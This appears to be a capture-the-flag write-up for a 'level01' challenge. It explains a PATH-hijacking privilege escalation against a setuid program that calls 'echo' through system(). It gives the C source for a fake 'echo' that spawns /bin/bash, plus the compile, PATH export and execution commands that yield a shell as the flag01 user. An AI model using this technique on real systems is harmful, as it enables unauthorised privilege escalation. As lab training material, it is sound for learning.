 ## level01

The code has a vulnerability in the line (env variables "injection")</br>
```
system("(...) echo and now what?")
```

if we create a auxiliar program named echo that spawns a shell and place it into the PATH variable (before everything else that's there), we call the fake echo program, and spawn a shell under the euid of the program (flag01 user).

### auxiliar program
```
#include <stdio.h>
#include <stdlib.h>

void main(){
    system("/bin/bash");
}
```

compile it
```
gcc echo.c -o echo
```

export to PATH
```
export PATH="/tmp/:$PATH"
```

Now excute 
```
/home/flag01/flag01
getflag
```

### flag 
```
You have successfully executed getflag on a target account
```
